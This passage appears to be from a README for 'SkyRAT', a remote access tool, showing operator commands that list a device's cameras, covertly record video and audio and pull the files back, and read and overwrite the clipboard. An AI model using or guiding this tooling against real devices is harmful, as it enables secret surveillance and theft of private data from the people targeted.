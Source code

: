### **Example 5: Remote Recording**

Demonstrate remote audio and video recording capabilities.

#### **Step 1: Camera Assessment**
```bash
# List available cameras
SkyRAT:/> camList

# Example output:
# Camera 0: Back
# Camera 1: Front
```

#### **Step 2: Video Recording**
```bash
# Start video recording (back camera)
SkyRAT:/> startVideo 0

# Wait for confirmation
# Recording started successfully!

# Record for 30 seconds, then stop
SkyRAT:/> stopVideo

# File automatically downloaded to dumps/Video_TIMESTAMP.mp4
```

#### **Step 3: Audio Recording**
```bash
# Start audio recording
SkyRAT:/> startAudio

# Wait for confirmation
# Audio recording started successfully!

# Record for 10 seconds, then stop
SkyRAT:/> stopAudio

# File automatically downloaded to dumps/Audio_TIMESTAMP.m4a
```

### **Example 6: System Control**

Demonstrate device control capabilities.

#### **Step 1: Clipboard Operations**
```bash
# Check current clipboard
SkyRAT:/> getClipData

# Set clipboard content
SkyRAT:/> setClip "Security test - timestamp: $(date)"

# Verify clipboard change
SkyRAT:/> getClipData
```
